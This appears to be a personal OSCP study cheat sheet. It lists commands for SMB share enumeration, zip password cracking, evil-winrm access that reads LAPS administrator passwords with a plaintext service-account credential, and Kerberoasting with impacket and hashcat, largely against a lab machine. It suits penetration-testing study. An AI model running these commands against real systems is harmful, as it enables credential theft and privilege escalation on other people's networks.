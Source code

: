 # OSCP


File Management:-

	Linux:-
		
		ls -la : show hidden files & size & permissions.
		lsattr : list files attribute and if you can append even if you don't have write permission.
		chattr : change files attribute (a:append,e:can't change,I:can't delete or move,etc..).	
		ln originFile copyFile : to make hard link of originFile to copyFile
		ln -s sourceFile copyFile : to make a soft link(shortcut in windows) to sourceFile, you will find -i when you ls -la copyFile.




	Windows:-
	
		dir /(A,S,Q): display files attributes,files in directories & sub directories,files owner.
		
		
SMB Enumeration:-

	enum4linux,nmap to get domain controller + user 
	smbmap -H 10.10.11.152 -u 'guest' -d Timelapse.htb     --- to search for readable/writable shares you can use -R for recursive 
	smbclient //10.10.11.152/Shares -U Timelapse.htb/guest  --- to connect where Timelapse.htb is the domain controller and guest is the user
	
	
Password Attacks

	fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip	--- to crack zip files


General Information:-

	PFX files contains certificate and private key which can be extracted using openssl
	evil-winrm -k private.key -c public.key -i 10.10.11.152 -S   ---- to connect to winrm on port 5986 with ssl 
	example of evil-winrm to hack active directory:
			*Evil-WinRM* PS C:\users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
			*Evil-WinRM* PS C:\users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
			*Evil-WinRM* PS C:\users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime}
	

	
Active Directory Attacks:-

	Kerberoasting: Post exploitation attack, require a valid user (TGT) to request TGS from a service account with SPN and crack the TGS to get the credentials out of it (TGS is encrypted with the NTLM hash of the SPN account password).
		Tools that can be used:-
			1-Rubeus
			2-Impacket GetUserSPNs.py
			3-Powershell scripts, etc..
		Steps:-
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200   //serach for SPN that can help us in escilating priv.
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200 -request -outputfile output.hash // save the hash
			hashcat --force -m 13100 -a 0 output.hash rockyou.txt //dictionary attack to get the password 
		
		Prevention:-
			Use strong and complex password or host based password insted of user based password.
